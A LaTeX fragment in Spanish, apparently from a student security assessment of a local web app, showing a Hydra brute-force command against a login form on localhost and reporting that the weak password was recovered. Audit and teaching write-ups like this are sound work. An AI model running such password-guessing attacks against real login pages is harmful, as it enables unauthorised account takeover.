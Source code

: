 \documentclass{report}
\begin{document}
                \clearpage
                Con el diccionario creado, vamos a realizar el ataque de fuerza bruta.
                Para ello, como he comentado, usaremos la herramienta Hydra.
                \begin{center}
                    \texttt{hydra -l ImanolMM -P imanol.txt localhost -s 81 http-post-form "/submit.php:nombre=\&telefono=\&dni=\&email=\&nacimiento=\&\\usuario=\^USER\^ \&passwd=\^PASS\^ \&tiporegistro=signin:Usuario o contraseña incorrecta"}
                \end{center}
                \begin{figure}[H]
                    \centering
                    \includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/3.3.png}
                    \caption{Ataque de fuerza bruta}
                \end{figure}
                Como podemos ver, el ataque ha sido exitoso y hemos obtenido la contraseña del usuario.
                Obviamente, este ataque ha sido muy sencillo ya que se utiliza contraseñas muy debiles pero nos sirve para ver que es posible realizar este tipo de ataques.
                \clearpage
        \section{Componentes vulnerables y obsoletos}
\end{document}
